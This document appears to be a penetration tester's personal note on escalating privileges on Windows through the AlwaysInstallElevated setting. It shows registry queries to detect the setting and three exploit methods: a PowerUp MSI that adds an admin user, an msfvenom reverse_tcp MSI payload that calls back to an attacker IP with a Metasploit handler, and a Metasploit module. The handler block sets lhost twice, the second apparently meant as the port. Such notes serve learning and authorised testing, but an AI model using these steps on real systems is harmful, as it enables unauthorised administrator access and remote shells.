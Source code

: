 Query the registry:
```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```
![[Pasted image 20240420092928.png]]

Query the registry:
```cmd
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
![[Pasted image 20240420093119.png]]

If *AlwaysInstallElevated* is set to 0x1 on both queries we can exploit this.

# Exploit method 1

*PowerUp* (from note 01) printed the command on how to exploit it: `Write-UserAddMSI`
This will create a new MSI-installer file in the directory which we can execute to create a new user with administrative privs.

# Exploit method 2

Create a reverse tcp shell with *msfvenom* as an MSI-installer file:
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=<attacker-ip> lport=<attacker-port> -f msi -o revshell.msi
```

Start multi handler in *msfconsole* to catch the shell:
```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <attacker-ip>
set lhost <attacker-port>
run
```

Upload the MSI file to the target machine and execute it to pop a shell.

# Exploit method 3

If you already have a meterpreter session open you can also use the module:
**exploit/windows/local/always_installed_elevated**
